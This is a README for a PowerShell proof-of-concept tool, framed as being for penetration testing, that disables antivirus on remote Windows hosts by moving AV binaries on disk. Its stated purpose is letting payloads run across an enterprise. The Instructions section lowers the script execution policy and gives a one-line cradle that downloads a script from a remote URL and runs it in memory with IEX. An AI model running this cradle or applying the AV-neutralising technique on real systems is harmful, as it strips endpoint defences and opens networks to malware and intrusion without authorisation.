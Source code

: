 # Invoke-NeutralizeAV
Quick PoC I Wrote for Bypassing Next Gen AV Remotely for Pentesting

# Description
I created this PoC based on a recent discovery of mine during a penetration test where I had SYSTEM access but could not stop AV processes or Services.  I found that simply moving the binaries on disk to another directory essentially neutralized the running AV process.  Use this script to effectively shut down AV across an enterprise environment so you can execute your payloads, etc.  

# Instructions
You'll probably want to read the blog first at https://curtbraz.blogspot.com/2018/08/bypassing-next-gen-av-during-pentest.html.  

The assumption is being made that you are first running as SYSTEM or at least a Local or Domain Admin that can elevate to SYSTEM on a Windows OS with PowerShell.  If AV is enabled on the target you plan to run this scipt on, it will likely need to be neutralized first before this can be leveraged to disable remote targets.  See the blog for details.  Soon, I'll provide a BAT file so it's not a manual process.

Paste the following into the elevated CMD prompt to download the PS1 script.  (Note: You may need to first enable scripts on the host with `Set-ExecutionPolicy unrestricted`)

1) `powershell IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/curtbraz/Invoke-NeutralizeAV/master/Invoke-NeutralizeAV.ps1')`

2) Enjoy! :)

# Closing Thoughts
This is a quick and dirty PoC.  I plan to fix it up and add more functionality soon (host list, CIDR notation, disabling services & other bypass methods first, quiet mode, etc), but hopefully in the meantime this will assist people to more quickly bypass next gen AV on remote hosts during a pentest.  I can't disclose the one AV vendor I know this works against, but I'm hopeful it will work on others.  I would love it if you could report back on what does/doesn't work.  I wrote this script in a dynamic way so I didn't have to keep an ongoing list of current AV Service Names.
